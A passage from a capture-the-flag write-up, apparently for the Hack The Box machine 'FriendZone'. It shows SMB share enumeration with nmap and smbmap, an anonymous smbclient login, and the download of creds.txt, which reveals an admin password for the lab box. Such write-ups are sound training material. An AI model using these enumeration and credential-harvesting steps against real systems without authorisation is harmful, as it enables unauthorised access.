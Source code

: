 ```
|     Max Users: <unlimited>
|     Path: C:\etc\general
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.10.123\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>

Nmap done: 1 IP address (1 host up) scanned in 2.82 seconds
```

Listing files from the share:

```
# smbmap -H 10.10.10.123 -r
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.10.10.123...
[+] IP: 10.10.10.123:445	Name: friendzone.htb                                    
	Disk                                                  	Permissions
	----                                                  	-----------
	print$                                            	NO ACCESS
	Files                                             	NO ACCESS
	general                                           	READ ONLY
	./                                                 
	dr--r--r--                0 Wed Jan 16 15:10:51 2019	.
	dr--r--r--                0 Wed Jan 23 16:51:02 2019	..
	fr--r--r--               57 Tue Oct  9 19:52:42 2018	creds.txt
	Development                                       	READ, WRITE
	./                                                 
	dr--r--r--                0 Sat Feb  9 15:50:02 2019	.
	dr--r--r--                0 Wed Jan 23 16:51:02 2019	..
	IPC$                                              	NO ACCESS
```

`creds.txt` looks interesting:

```
# smbclient -U "" //10.10.10.123/general

Enter HTB\'s password: 
Try "help" to get a list of possible commands.
smb: \> get creds.txt
getting file \creds.txt of size 57 as creds.txt (1.6 KiloBytes/sec) (average 1.6 KiloBytes/sec)
smb: \> exit
root@ragingunicorn:~/htb/friendzone# cat creds.txt
creds for the admin THING:

admin:WORKWORKHhallelujah@#
```
